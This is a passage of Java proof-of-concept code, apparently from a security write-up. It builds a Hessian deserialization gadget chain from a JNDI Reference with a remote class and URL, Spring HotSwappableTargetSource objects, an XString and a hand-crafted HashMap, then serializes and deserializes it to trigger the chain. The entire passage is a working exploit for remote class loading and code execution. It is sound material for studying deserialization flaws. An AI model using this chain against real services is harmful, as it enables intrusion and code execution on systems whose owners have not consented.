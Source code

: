 ```java

        Context ctx = createWithoutConstructor(WritableContext.class);
        Reference ref = new Reference("foo", remoteClass, remoteUrl);
        ContextUtil.ReadOnlyBinding binding = new ContextUtil.ReadOnlyBinding("foo", ref, ctx);

        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(binding);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("h3rmesk1t"));


        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, hotSwappableTargetSource1, hotSwappableTargetSource1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, hotSwappableTargetSource2, hotSwappableTargetSource2, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```
